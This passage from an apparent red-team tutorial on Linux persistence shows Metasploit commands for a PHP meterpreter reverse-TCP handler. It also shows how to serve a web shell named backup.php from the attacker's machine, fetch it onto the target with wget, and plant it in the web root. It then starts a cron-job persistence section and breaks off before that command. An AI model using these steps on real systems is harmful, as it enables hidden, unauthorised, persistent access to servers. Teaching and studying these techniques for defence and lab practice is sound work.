 ```bash
set payload php/meterpreter/reverse_tcp
```

```bash
set LHOST
```

```bash
set LPORT
```

```bash
run
```

The next step will involve uploading the PHP shell that we just generated to the web server, this can be done by setting up a local web server on the Kali VM and downloading it on the target.

```bash
sudo python -m SimpleHTTPServer 80
```

```bash
wget http://<KALI-IP>/backup.php
```

In this case, we will be uploading the “backup.php” file to the root of the webserver under the /var/www/html directory as shown in the following screenshot.

![](../../assets/img/redteam/pt10.png)

We can retrieve a meterpreter session on the target by navigating to the “backup.php” file on the webserver by accessing the following URL with your browser:

```bash
http://< SERVER-IP>/backup.php<
```

Accessing the through the browser should execute the PHP code and consequently provide you with a meterpreter session on your listener as shown in the following screenshot.

![](../../assets/img/redteam/pt11.png)

We have been able to successfully set up persistence by uploading a meterpreter web shell that allows us to maintain access to the target server without authenticating via SSH.

Persistence Via Cron Jobs
--

This technique involves leveraging Cron jobs to maintain persistent access to the target system by executing a reverse shell command or a web shell repeatedly on a specified schedule.

Cron is a time-based service that runs applications, scripts, and other commands repeatedly on a specified schedule.

Cron provides you with the ability to run a program, script, or command periodically at whatever time you choose, these Cron jobs are then stored in the “crontab” file.

We can add a cron job on the target system by editing the crontab file, this can be done by running the following command on the target system:
